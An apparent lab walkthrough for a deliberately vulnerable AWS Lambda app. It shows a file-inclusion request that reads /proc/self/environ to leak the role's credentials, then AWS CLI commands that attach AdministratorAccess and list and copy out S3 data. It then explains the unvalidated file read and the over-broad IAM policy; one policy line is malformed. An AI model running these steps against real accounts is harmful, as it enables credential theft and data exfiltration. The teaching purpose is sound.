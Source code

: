# Dunder Mifflen Products Exploit Walkthrough

This webpage is backed by API Gateway and Lambda. When a request is made the API forwards the request to lambda which in turns serves the content.

Accessing Certain Files may be Important for application use.

However, not all files should be publicly accessible.

---

### Discovery:

Right-click on the web page, and select "Inspect" or "Inspect Element" from the context menu. This will open the browser's developer tools.

- Click on the Network tab, in the inspector tools window. 
- Click hint.txt again to re-issue the request from the Web UI.
- Expand the 200 status GET method event.
- Discover the backend API Gateway Endpoint URL.

![lambda](/images/products/lambda.jpg)

The format should be: https://something.execute-api.us-east-1.amazonaws.com/dev/lambda

---

### Gain Entry:
Try appending the following to the end of the current URL.
- ?file=/proc/self/environ

![envs](/images/products/envs.jpg)

---

### Assume Exposed Lambda Role

Exporting the AWS credentials
```
export AWS_ACCESS_KEY_ID=<>; export AWS_SECRET_ACCESS_KEY=<>; export AWS_SESSION_TOKEN=<>
```

Gather the value of the IAM Role ARN 
```
aws sts get-caller-identity --query 'Arn'
```

---

### IAM Privilege Escalation

Attach a IAM policy to our IAM Role to gain additional permissions
```
aws iam attach-role-policy --role-name <name of role> --policy-arn arn:aws:iam::aws:policy/AdministratorAccess
```


![assume](/images/products/gather.jpg)

---

### Service Enumeration

List AWS S3 buckets
```
aws s3 ls
```

List objects inside of S3
```
aws s3 ls s3://<Name of bucket>
```

---

### Data Exfiltration

Copy out S3 object
```
aws s3 cp s3://<name of bucket>/<file name and extension>
```

![exfil](/images/products/exfil.jpg)

---

## Explanations 

---

### Insufficient Input Validation:

Here is the underlying code running on Lambda.

```
def handler(event, context):
    print("EVENT: %s" % (event,))
    content = ""

    if event.get("queryStringParameters") and 'file' in event["queryStringParameters"]:
        filename = event["queryStringParameters"]['file'] #file input is not validated here.
        try:
            with open(filename, 'r') as f: # opening up unvalidated file
                content = f.read()
                content = content.replace('\0', '\n')
        except BaseException:
            return _403()

    BODY = """<!DOCTYPE html>
<html>
<body>
<pre>%s</pre>
</body>
</html>""" % content

    return {
        'statusCode': 200,
        'headers': {
            'Content-Type': 'text/html; charset=utf8',
            'Access-Control-Allow-Origin' : '*'
        },
        'isBase64Encoded': False,
        'body': BODY,
    }

```

---

Let's break down the issues:

```
filename = event["queryStringParameters"]['file']
```

Security Concern: The code directly uses the filename extracted from the query parameters without proper validation. This can be a security risk as it may allow for directory traversal attacks, where an attacker manipulates the file parameter to access files outside the intended directory.


```
with open(filename, 'r') as f:
```
Security Concern: Opening a file without proper validation may expose sensitive system files if an attacker can control the filename. This could lead to directory traversal vulnerabilities.

---

### Insufficient Implementation of Least Privilege Permissions

```
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Action": [
                "cloudwatch:PutMetricData"
            ],
            "Resource": "*", "*", ## Excessive Star
            "Effect": "Allow"
        },
        {
            "Action": [
                "logs:CreateLogGroup",
                "logs:CreateLogStream",
                "logs:PutLogEvents",
                "iam:ListAttachedRolePolicies",
                "iam:AttachRolePolicy" ## Excessive permission
            ],
            "Resource": "*", ## Excessive Star
            "Effect": "Allow"
        }
    ]
}
```
---

Let's break down the issues:

**Excessive Use of * (Wildcard)**:
    In both statements, the Resource field is set to "*" (wildcard), allowing actions on all resources. This is a broad permission that goes against the principle of least privilege.
    Issue: This approach grants more permissions than necessary and could potentially lead to unintended consequences, such as allowing actions on resources that the role shouldn't have access to.

**Excessive Permissions in the Second Statement**:
    The second statement includes actions like "iam:ListAttachedRolePolicies" and "iam:AttachRolePolicy". These actions provide the capability to list attached policies and attach policies to IAM roles.
    Issue: Granting these IAM actions is excessive unless the role explicitly needs to manage IAM policies. This introduces the risk of IAM privilege escalation, where a user with this role can potentially attach policies with higher privileges, leading to a broader set of permissions than intended.